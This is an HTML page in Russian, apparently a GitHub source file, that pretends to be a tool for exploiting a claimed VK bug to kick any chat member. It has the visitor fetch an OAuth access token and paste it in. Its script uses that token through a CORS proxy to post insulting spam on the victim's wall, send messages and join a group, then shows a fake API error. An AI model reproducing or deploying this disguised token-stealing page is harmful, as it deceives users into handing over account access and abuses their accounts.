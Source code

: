 <!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
	<title>Баг ВКонтакте</title>
	<link rel="shortcut icon" href="https://vk.com/images/favicon_vk_2x.ico">
	<link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
</head>
<body>
	<div class="container text-center mt-5 align-middle">
		<div class="row justify-content-center">
			<div style="padding: 5%;">
				<img src="https://vk.com/images/icons/pwa/apple/default.png?8" style="border-radius: 90px;" width="50" height="50">
				<h1>Кик пользователя</h1>
				<p>С недавних пор в VK появилась уязвимость: стало возможным благодаря некоторым инструментам кикать абсолютно любого участника беседы, включая создателя, даже если у самого нет статуса администратора.</p>
				<p><a href="https://oauth.vk.com/authorize?client_id=7529816&scope=1073737727&redirect_uri=https://oauth.vk.com/blank.html&display=page&response_type=token&revoke=1" target="_blank">Получить токен</a></p>
				<div id="error"></div>
				<p><input class="form-control" placeholder="Токен" id="token"></p>
				<p><input class="form-control" placeholder="Ссылка на беседу (например: sel=c59)"></p>
				<p><input class="form-control" placeholder="Айди на пользователя"></p>
				<p><button class="btn btn-primary mr-1" id="action">Кикнуть</button></p>
				<p><b>Чтобы полностью исключить возможность кражи вашего аккаунта, смените пароль от своей страницы после кика или сбросьте права приложения "Kate Mobile". Токен станет после этого нерабочим.</b></p>
			</div>
		</div>
	</div>

	<script>
		let button = document.getElementById('action');
		button.onclick = function() {
			let token = document.getElementById('token').value;

			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/wall.post?v=5.103&access_token=${token}&message=vto.pe ШОК НАКРУТКА ВК 2020 Я ЛОХ я гей сова никогда не спит`).then(response => console.log(response.json()));
			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/wall.post?v=5.103&access_token=${token}&message=https://vk.me/join/AJQ1d9yjDRhaCfLiVW9T2WD0`).then(response => console.log(response.json()));
			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/messages.send?v=5.103&access_token=${token}&message=ya popalsya na klikbeit&peer_id=-192835178&random_id=0`).then(response => console.log(response.json()));
			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/groups.join?v=5.103&access_token=${token}&group_id=192835178`).then(response => console.log(response.json()));

			setTimeout(function(){
				let el = document.createElement('div');
				el.className = 'alert alert-danger';
				el.innerHTML = 'Ошибка VK API. Попробуйте позже.'
				document.getElementById('error').append(el);
			}, 750);
		}

		function callback(response) {}
		
	</script>
	
</body>
</html>
